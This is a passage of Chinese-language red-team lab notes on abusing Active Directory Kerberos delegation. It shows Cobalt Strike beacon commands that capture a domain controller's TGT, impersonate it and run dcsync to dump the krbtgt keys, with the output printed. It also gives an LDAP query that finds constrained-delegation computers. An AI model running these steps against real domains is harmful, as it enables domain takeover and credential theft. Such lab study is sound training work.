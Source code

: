 [+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
```

参数解释：
```
dc-2 is the "target" server

srv-1 is the "capture" server

```

3. srv-1的监听会收到dc-2的TGT
```
[*] 3/9/2021 12:00:07 PM UTC - Found new TGT:

  User                  :  DC-2$@DEV.CYBERBOTIC.IO
  StartTime             :  3/9/2021 10:27:15 AM
  EndTime               :  3/9/2021 8:27:13 PM
  RenewTill             :  1/1/1970 12:00:00 AM
  Flags                 :  name_canonicalize, pre_authent, forwarded, forwardable
  Base64EncodedTicket   :

    doIFLz [...snip...] MuSU8=

[*] Ticket cache size: 1
```

4. 利用dc-2的TGT伪造票据，然后再dc-2上执行dcsync

```
beacon> make_token DEV\DC-2$ FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\dc-2.kirbi

beacon> dcsync dev.cyberbotic.io DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa
      aes128_hmac       (4096) : 473a92cc46d09d3f9984157f7dbc7822
      des_cbc_md5       (4096) : b9fefed6da865732
```

# Constrained Delegation

约束委派的机器不允许缓存其他用户的 TGT，但允许它用自己的TGT为其他用户请求TGS。

## 查找约束委派计算机

1. ADSearch
```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes cn,dnshostname,samaccountname,msds-allowedtodelegateto --json
